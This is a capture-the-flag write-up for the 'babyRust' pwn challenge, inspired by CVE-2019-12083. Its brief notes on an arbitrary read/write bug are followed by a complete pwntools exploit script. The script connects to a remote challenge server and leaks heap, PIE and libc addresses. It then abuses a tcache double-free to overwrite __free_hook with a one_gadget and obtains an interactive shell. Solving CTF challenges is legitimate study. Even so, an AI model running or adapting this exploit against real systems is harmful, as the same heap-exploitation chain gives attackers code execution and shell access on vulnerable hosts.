 [中文](./README_zh.md) [English](./README.md)

# babyRust wp

babyRust source code：https://github.com/zjw88282740/babyRust


Inspired by[CVE-2019-12083](https://www.cvedetails.com/cve/CVE-2019-12083/ "CVE-2019-12083 security vulnerability details")

an _arbitrary read_/write vulnerability

easy to arbitrary read, we can read some libc_addr from the GOT and calculate the libc_base

observed the heap, we can found  double-free in tcache bins,one_gadget to get shell
```
from pwn import *
libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#p=process("./babyRust")
context.log_level="debug"
p=remote("207.148.126.75",60001)
def show():
    p.recvuntil("4.exit\n")
    p.sendline("2")

def edit(name,x,y,z,i):
    p.recvuntil("4.exit\n")
    p.sendline("3")
    p.recvuntil("input your name:")
    p.sendline(name)
    p.recvuntil(":")
    p.sendline(str(x))
    p.recvuntil(":")
    p.sendline(str(y))
    p.recvuntil(":")
    p.sendline(str(z))
    p.recvuntil(":")
    p.sendline(str(i))

#gdb.attach(p)

p.recvuntil("4.exit\n")
p.sendline("1312") #Boom->S
show()
heap_addr=int(p.recvuntil(", ",drop=True)[2:])-0xa40
print hex(heap_addr)

p.sendline("1313")
p.sendline("1314")

edit("aaa",heap_addr+0x2ce0,0,0,0)
show()
p.sendline("1312")
#show()
print p.recv()

p.sendline("1313")


edit("bbb ",heap_addr+0xb18,8,8,heap_addr+0xb18)
show()
p.recvuntil("3,3,")
pie_addr=u64(p.recv(8))-239480

print hex(pie_addr)

edit("bbb ",pie_addr+0x3be78,8,8,0)
show()
p.recvuntil("3,3,")

libc_addr=u64(p.recv(8))-1161904
print hex(libc_addr)
edit("bbbbb",heap_addr+0x2d40,2,3,4)
p.sendline("1314")
p.recvuntil("4.exit\n")
p.sendline("1")
p.recvuntil("input your name:")
p.sendline("z")

p.recvuntil(":")
p.sendline(str(0))
p.recvuntil(":")
p.sendline(str(4015))
p.recvuntil(":")
p.sendline(str(5))
p.recvuntil(":")
p.sendline(str(0))
show()
free_hook=libc_addr+libc.symbols['__free_hook']-0x28-8
p.sendline("1312")
edit("\x00"*0x20,free_hook,0,0,0)
one_gadget=libc_addr+0x4f322
p.sendline("1313")
edit("\x00"*0x30,free_hook,2,3,one_gadget)
p.sendline("1314")
p.interactive()

```
